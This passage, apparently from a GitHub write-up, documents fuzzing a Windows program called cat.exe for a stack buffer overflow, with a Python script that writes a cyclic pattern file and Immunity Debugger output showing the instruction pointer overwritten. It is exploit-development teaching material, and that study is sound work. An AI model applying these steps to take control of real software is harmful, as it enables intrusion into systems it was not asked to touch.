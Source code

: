  * `ECX + EDI = 0x19FA54 + 0x5AC = 0x1A0000`
 
### .. Conclusion

 * The same exception as with `fuzz1.py`
 * The string was not longer than the stack boundary.
 * The instruction tries to move zero beyond the stack boundary.

> Many programs and functions use zero terminated strings.
  The pattern didn't leave space for this zero byte.
  `fuzz3.py` will try to prevent this exception.

### .. Code for `fuzz2.py`

```python

from pattern import createPattern

position = 1448
maximum = position + 4
pattern = createPattern(maximum)

with open('pattern.dat', 'w') as f:
	f.write(pattern)

```

---

## `fuzz3.py`

### .. Test

* Prevent to have a stack underflow exception, which is 
  caused by writing beyond the stack boundary (see fuzz2.py).

```
> fuzz3.py
> ImmunityDebugger.exe cat.exe pattern.dat
```

### .. Result

 * Exception
```
Log data, item 0
 Address=33694232
 Message=[21:34:06] Access violation when executing [33694232]
```
 
 * Registers
```
EIP 33694232
```
